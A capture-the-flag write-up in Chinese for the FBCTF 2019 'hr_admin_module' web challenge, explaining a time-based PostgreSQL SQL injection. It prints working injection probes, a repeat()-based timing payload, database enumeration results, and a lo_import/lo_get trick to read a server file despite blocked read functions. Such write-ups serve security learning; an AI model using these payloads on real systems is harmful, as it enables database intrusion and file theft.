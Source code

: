 # hr_admin_module

Solved: 4

### [English Version](https://github.com/w181496/CTF/blob/master/fbctf2019/hr_admin_module/README_en.md)

<br>

這題是這場我花最多時間的 web 題，不過還蠻好玩的，發現很多新招XD

首先是 SQL Injection:

從 `user_search` 參數可以發現 SQL Injection 特徵

當我輸入不合 SQL 語法時，會噴 Warning ，但他是第二次 Request 才會顯示

e.g. 

- 有warning: `admin'` or `admin'-` ...

- 沒warning: `admin'--` or `admin''` or `admin' and 1=2 --` ...

![](https://github.com/w181496/CTF/blob/master/fbctf2019/hr_admin_module/sqlinj.png)

而且這題似乎擋了很多東西，`pg_sleep`無法用，`dblink`簡單踹一下似乎也沒dns request (但賽後才知道好像其實可以?)

後來就發現 `repeat()` 可以讓 Server 卡住 

e.g. `'and 1=2 union select NULL, (select case when 1=1 then (select repeat('a', 10000000)) else NULL end)--`

所以我們就有了 Time-based 的 SQL Injection

先撈一些基本資訊:

```
version: (Debian 11.2-1.pgdg90+1)
current_db: docker_db
current_schema: public
table of public: searches
columns of searches: id,search
current_query: SELECT * FROM searches WHERE search = 'YOUR_INPUT'
```

但後來撈了一整天，DB 裡面沒看到啥可用的東西，`pg_read_file` , `pg_ls_dir` 等函數也都不能用

可是 `/var/lib/postgresql/data/secret` 這個 path 很明顯是 default data directory

所以應該還是有辦法能讀檔

猜測是要找到某個沒被限制的函數去讀檔

找了無數個小時，還翻了postgres src

最後我在本機 local 端，試著找所有名字包含`read`的 function: 

`SELECT proname FROM pg_proc WHERE proname like '%read%';`

=>

```
 loread
 pg_stat_get_db_blk_read_time
 pg_read_file_old
 pg_read_file
 pg_read_binary_file
```

最後根據第一筆結果找到 `lo_import`, `lo_read`(`loread`), `lo_open`, ... 這些同系列的 function

https://www.postgresql.org/docs/11/lo-funcs.html

官方文件中表示`lo_import` 可以把檔案載入進 Object 中

遠端測試: `lo_import('/var/lib/postgresql/data/secret')`

有回傳一個 OID 回來，所以代表 flag 有成功載入進去

接著用 `lo_get(OID)`，把這個 OID 對應的 Object 讀出來就行

```
select cast(lo_import('/var/lib/postgresql/data/secret') as text)
=> 18440

select cast(lo_get(18440) as text)
=> \x66627b4040646e....
```


`fb{@@dns_3xfil_f0r_the_w1n!!@@}`

(it looks like this is unintended solution :p)

